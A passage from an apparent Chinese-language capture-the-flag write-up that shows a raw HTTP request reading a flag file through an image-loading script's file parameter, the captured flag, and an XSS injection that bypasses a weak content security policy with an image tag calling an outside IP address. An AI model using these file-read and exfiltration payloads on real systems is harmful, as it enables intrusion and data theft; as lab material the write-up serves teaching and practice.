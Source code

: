 可以读，那么尝试读flag内容。而/etc/passwd中可以看到有一个flag用户。

```
flag:x:11:11:flag:/home/flag/a89ca65d:/usr/sbin/nologin
```

尝试读取一波

```http
GET /c181948a9bdee64753468823ac57a870/github.com/getimg.php?pic=/home/flag/a89ca65d HTTP/1.1
Host: 118.31.18.64:20008
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: __utma=13406071.113045772.1505529039.1505529039.1505529039.1; __utmz=13406071.1505529039.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); PHPSESSID=htgpdqchfo3hi3h3q2suo22fk2; tz=Asia%2FShanghai
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

得到flag

```
WHCTF{D0_Y0u_Th1nk_Sc4nner_15_Usefu1}
```



## NOT_ONLY_XSS

> url:http://118.31.15.206:20006/

抓包，可以发现有一个CSP。CSP限制很弱，一个个盲测一下。

```
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';style-src 'self' 'unsafe-inline';img-src *;
```

发现可以通过img标签绕过，```<img src='ip'>```

请求包如下：

```html
POST / HTTP/1.1
Host: 118.31.15.206:20006
Content-Length: 140
Cache-Control: max-age=0
Origin: http://118.31.15.206:20006
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://118.31.15.206:20006/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: PHPSESSID=pvna84asmituchrrvl8kh4h5s5
Connection: close

name=mo+xiaoxi&email=x%40gmail.com&phone=15084762817&verify=828188&secret=%3Cimg+src%3D%27http%3A%2F%2F45.62.96.72%3A5678%27%3E
```

